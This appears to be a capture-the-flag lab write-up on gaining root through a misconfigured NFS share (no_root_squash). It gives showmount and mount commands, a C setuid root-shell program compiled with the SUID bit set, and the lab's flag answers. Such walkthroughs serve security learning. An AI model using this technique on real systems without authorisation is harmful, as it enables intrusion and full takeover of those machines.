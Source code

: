 ## Privilege Escalation: NFS (Network File Sharing) Solution

### Notes:
- SSH and Telnet can be used for root access.
  - Can find SSH private key in target system to connect with root privilege

- Misconfigured network shell.
  - can be present when network backup exist.

- NFS configuration in `/etc/exports/`
  - Look for **no_root_squash** on writable share as will allow creation of executable with SUID bit set and execute on target system. 
    - By default NFS will remove root privileges from any file by changing root user to nfsnobody. 

### How many mountable shares can you identify on the target system?
1. Run the following command in attacke machine:
   ```
   showmount -e {target_machine ip} 
   ```
![Screenshot 2024-02-10 at 12 26 51 AM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/c11922f6-362c-4133-8fb0-64888fc248bf)

**Answer: 3**

### How many shares have the "no_root_squash" option enabled?
1. Run `cat /etc/exports` on the target machine
![Screenshot 2024-02-10 at 12 29 08 AM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/86da6e1c-0302-4218-a90d-eff384554769)


**Answer: 3** 

### What is the content of the flag7.txt file?
1. Let's mount one of the mountable shares by executing the following on attack machine:
```
mkdir /tmp/backupsharemounted
mount -o rw 10.10.139.175:/home/ubuntu/sharedfolder /tmp/backupsharemounted
cd /tmp/backupsharemounted
touch attack.c
```

2. Let's update `attack.c` to execute `bin/bash` on the attack machine. 
```
int main()
{setgid(0);
setuid(0);
system("/bin/bash");
return 0;
}
```

3. Execute the following on the attack machine
```
gcc attack.c -o attack -w
chmod +s attack
```

4. On target machine `cd /home/ubuntu/sharedfolder` and you will see the attack executable file.

![Screenshot 2024-02-10 at 1 10 50 AM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/70e06ea0-6ed2-426a-9e0d-91f3986be554)

5. Execute `./attack` on the target machine and this will provide us with bash root privileges.
   
![Screenshot 2024-02-10 at 1 13 43 AM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/89fedd61-2ef1-4060-8afc-8f71692b5904)

6. Run `cat /home/matt/flag7.txt` on the target machine
   
![Screenshot 2024-02-10 at 1 16 01 AM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/23d9f3c8-29af-4a81-81aa-c25357956866)

**Answer:THM-89384012**

